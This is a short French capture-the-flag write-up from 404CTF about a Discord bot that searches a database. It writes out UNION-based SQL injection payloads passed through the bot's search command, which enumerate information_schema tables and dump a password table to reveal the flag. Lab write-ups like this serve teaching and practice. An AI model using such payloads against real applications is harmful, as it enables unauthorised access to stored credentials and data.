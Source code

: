 ## MISC / Un utilisateur suspicieux

<p align="center">
  <img src="img/consignes.png" />
</p>


### Look around

Un challenge amusant contre un bot discord qui apparemment interroge pour nous une base de données.


Assez vite nous découvrons :

```bash
Commandes disponibles :
!chercher argument -> rechercher argument dans la base de données
!authentification motdepasse -> authentifiez vous pour accéder au mode privilégié
!drapeau -> obtenez un mystérieux drapeau
!debug -> debug command
```

### Exploit

Je vais passer tous les tests pour cerner le SGBD en question, mais `_` et `%` retourne des résultats, nous devons donc être dans une requête du genre :

`SELECT * FROM table WHERE xxx LIKE %user_input%`

Dans un premier temps on récupère des informations sur la tables, puis sur le premier flag qui nous est demandé :

```bash
!chercher _%" UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables#

>ALL_PLUGINS,APPLICABLE_ROLES,CHARACTER_SETS,CHECK_CONSTRAINTS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS,COLUMN_PRIVILEGES,ENABLED_ROLES,ENGINES,EVENTS,FILES,GLOBAL_STATUS,GLOBAL_VARIABLES,KEYWORDS,KEY_CACHES,KEY_COLUMN_USAGE,OPTIMIZER_TRACE,PARAMETERS,PARTITIONS,PLUGINS,PROCESSLIST,PROFILING,REFERENTIAL_CONSTRAINTS,ROUTINES,SCHEMATA,SCHEMA_PRIVILEGES,SESSION_STATUS,SESSION_VARIABLES,STATISTICS,SQL_FUNCTIONS,SYSTEM_VARIABLES,TABLES,TABLESPACES,TABLE_CONSTRAINTS,TABLE_PRIVILEGES,TRIGGERS,USER_PRIVILEGES,VIEWS,CLIENT_STATISTICS,INDEX_STATISTICS,INNODB_FT_CONFIG,GEOMETRY_COLUMNS,INNODB_SYS_TABLESTATS,SPATIAL_REF_SYS,USER_STATISTICS,INNODB_TRX,INNODB_CMP_PER_INDEX,INNODB_METRICS,INNODB_FT_DELETED,INNODB_CMP,THREAD_POOL_WAITS,INNODB_CMP_RESET,THREAD_POOL_QUEUES,TABLE_STATISTICS,INNODB_SYS_FIELDS,INNODB_BUFFER_PAGE_LRU,INNODB_LOCKS,INNODB_FT_INDEX_TABLE,INNODB_CMPMEM,THREAD_POOL_GROUPS,INNODB_CMP_PER_INDEX_RESET,INNODB_SYS_FOREIGN_COLS,INNODB_FT_INDEX_CACHE,INNODB_BUFFER_POOL_STATS,INNODB_FT_BEING_DELETED,INNODB_SYS_FOREIGN,INNODB_CMPMEM_RESET,INNODB_FT_DEFAULT_STOPWORD,INNODB_SYS_TABLES,INNODB_SYS_COLUMNS,INNODB_SYS_TABLESPACES,INNODB_SYS_INDEXES,INNODB_BUFFER_PAGE,INNODB_SYS_VIRTUAL,user_variables,INNODB_TABLESPACES_ENCRYPTION,INNODB_LOCK_WAITS,THREAD_POOL_STATS,Privileged_users,data,password



!chercher _%" UNION SELECT * FROM password#
>404CTF{D1sc0rd_&_injection_SQL}
```

